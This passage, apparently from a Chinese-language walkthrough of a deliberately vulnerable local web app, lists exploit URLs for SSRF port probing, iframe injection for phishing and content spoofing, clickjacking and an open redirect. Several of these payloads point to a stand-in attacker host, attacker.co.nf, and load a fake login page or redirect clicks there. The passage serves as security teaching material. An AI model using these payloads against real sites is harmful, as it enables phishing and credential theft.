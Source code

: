 EXPLOIT:

http://127.0.0.1:65412/?path=http://127.0.0.1:80

    如果 IP 地址 127.0.0.1 开放了 80 端口, 那么返回得到的信息, 否则返回一个 500 错误。

4.3.3 Frame Injection (phishing)

Frame注入(钓鱼): 属于XSS的范畴, 将HTML的标签注入到存在漏洞的HTTP响应体中, 如: iframe标签。

漏洞地址:    
http://127.0.0.1:65412/?v=0.2

EXPLOIT:

http://127.0.0.1:65412/?v=0.2<iframe src="http://attacker.co.nf/i/login.html" style="background-color:white;z-index:10;top:10%;left:10%;position:fixed;border-collapse:collapse;border:1px solid #a8a8a8"></iframe>

4.3.4 Frame Injection (content spoofing)

Frame注入(内容欺骗): 同上原理。

漏洞地址:    
http://127.0.0.1:65412/?v=0.2

EXPLOIT:

http://127.0.0.1:65412/?v=0.2<iframe src="http://attacker.co.nf/i/login.html" style="background-color:white;z-index:10;top:10%;left:10%;position:fixed;border-collapse:collapse;border:1px solid #a8a8a8"></iframe>

4.3.5 Clickjacking

点击劫持: 是一种恶意技术，其包括欺骗Web用户让他们认为正在与交互的东西的交互（在大多数情况下通过点击, 这种技术手段运用最多的就是广告）。 这种类型的攻击可以单独使用或与其他攻击结合使用，在受害者与看似无害的网页进行交互时，可能会发送未经授权的命令或泄露机密信息。

EXPLOIT:

http://127.0.0.1:65412/?v=0.2<div style="opacity:0;filter:alpha(opacity=20);background-color:#000;width:100%;height:100%;z-index:10;top:0;left:0;position:fixed;" onclick="document.location='http://attacker.co.nf/'"></div><script>alert("click anywhere on page");</script>

4.3.6 Unvalidated Redirect

未验证的重定向: 当Web应用程序接受不受信任的输入时，可能会导致Web应用程序将请求重定向到包含在不受信任的输入中的URL，从而可能导致未经验证的重定向和转发。 通过将不受信任的URL输入修改为恶意网站，攻击者可能会成功启动网络钓鱼诈骗并窃取用户凭据。 由于修改链接中的服务器名称与原始网站相同，因此网络钓鱼尝试可能具有更可信的外观。 未验证的重定向和转发攻击也可用于恶意制作一个URL，该URL将通过应用程序的访问控制检查，然后将攻击者转发到他们通常无法访问的特权功能。

漏洞地址:    
http://127.0.0.1:65412/?redir=

EXPLOIT:

http://127.0.0.1:65412/?redir=http://attacker.co.nf

4.3.7 Arbitrary Code Execution

任意代码执行: 开发人员没有严格验证用户输入的数据, 在某些特殊业务场景中, 用户可构造出恶意的代码或系统命令, 来获得服务器上的敏感信息或者得到服务器的控制权限。

漏洞地址:    
http://127.0.0.1:65412/?domain=www.google.com
